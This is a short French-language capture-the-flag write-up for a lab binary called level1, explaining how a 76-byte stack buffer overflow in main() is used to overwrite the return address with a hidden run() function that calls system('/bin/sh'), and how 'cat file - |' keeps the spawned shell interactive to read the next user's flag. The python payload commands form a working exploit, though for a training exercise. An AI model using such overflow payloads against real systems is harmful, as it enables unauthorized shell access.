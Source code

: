 ## Level 1

Avec cutter ou objdump, on observer deux fonctions:
main() et run().
Run() n'est jamais appelé mais, on y voit un appel a system(/bin/sh).

main() contient un buffer de 76 characteres, qu'on peut overflow.
On remplis donc le buffer avec des données random, puis on réecrit l'EIP avec
l'adresse de la fonction run, trouvé avec objdump.

$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
$ Good... Wait what?
$ segfault.

On arrive a faire executer la fonction caché mais, l'appel a system() n'a pas
l'air de réagir.
Cause: l'orsque system(/bin/sh) est exécuté, l'entré standart n'est pas
disponible, il faut donc faire en sorte de garder la main sur le shell avec
l'entrée standart:
On ultilise le charactere '-' avec le binaire cat.

$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/level1
$ cat /tmp/level1 - | ./level1
Et voila, le shell reste a l'écoute de nos commandes. On peut donc naviguer
vers le /home du user level2 et récuperer le flag.
